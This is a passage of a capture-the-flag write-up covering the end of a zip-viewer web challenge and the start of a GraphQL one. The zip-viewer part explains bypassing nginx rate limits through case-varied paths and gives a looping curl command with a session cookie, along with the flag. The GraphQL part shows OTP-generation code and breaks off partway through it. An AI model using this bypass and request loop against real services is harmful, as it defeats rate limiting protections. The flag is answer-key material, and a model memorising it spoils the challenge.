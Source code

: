 ```
        }
    }
```

How I solved it, is that nginx routes are case sensitive, but Swift is not. So we can use the `/UpLoAd`, `/downlOad` (and variations of them) endpoints to bypass the rate limiting. The rest of the exploit is the same as `zipviewer-version-citizen`. I also got a VPS in Japan to be closer to the server, and just used this curl command to get the flag:

```
while true; do curl -i -s -k -X $'GET'     -H $'Host: 35.243.120.91:11001' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36' -H $'Accept: */*' -H $'Referer: http://35.243.120.91:11001/viewer' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H $'Connection: close'     -b $'vapor_session=f7C0Bg7XDgJsQWKZNNDlULuFnO0m5aC+kVNc8XDy/1k='     $'http://35.243.120.91:11001/dOwnload/symlink.jpg' ; done
```

**LINECTF{34d98811f9f20094d1cc75af9299e636}**

<a name="graphql-101"></a>
## graphql-101 (176 pts, 28 solves) - Web

Description:
```
Hello, I've just learned graphql by following tutorial of express graphql server. I hope nothing goes wrong.

http://34.84.220.22:7654/

If your exploit works locally, but doesn't work in real, please consider to use another external IP (such as a remote VM).
```

This is a simple GraphQL server written in Express. The goal is to get the OTP for all 40 users. The server is using a simple in-memory database to store the users and their OTPs. The important part of the code is:
```javascript
const STRENGTH_CHALLENGE = 999;
const NUM_CHALLENGE = 40;
const ERROR_MSG = "Wrong !!!";
const CORRECT_MSG = "OK !!!";

// Currently support admin only
var otps = Object.create(null);
otps["admin"] = Object.create(null);
function genOtp(ip, force = false) {
  if (force || !otps["admin"][ip]) {
    function intToString(v) {
      let s = v.toString();
      while (s.length !== STRENGTH_CHALLENGE.toString().length) s = '0' + s;
      return s;
    }
    const otp = [];
    for (let i = 0; i < NUM_CHALLENGE; ++i) 
      otp.push(
        intToString(crypto.randomInt(0, STRENGTH_CHALLENGE))
      );
    otps["admin"][ip] = otp;
  }
}

const rateLimiter = require('express-rate-limit')({
  windowMs: 30 * 60 * 1000,
  max: 5,
  standardHeaders: true,
```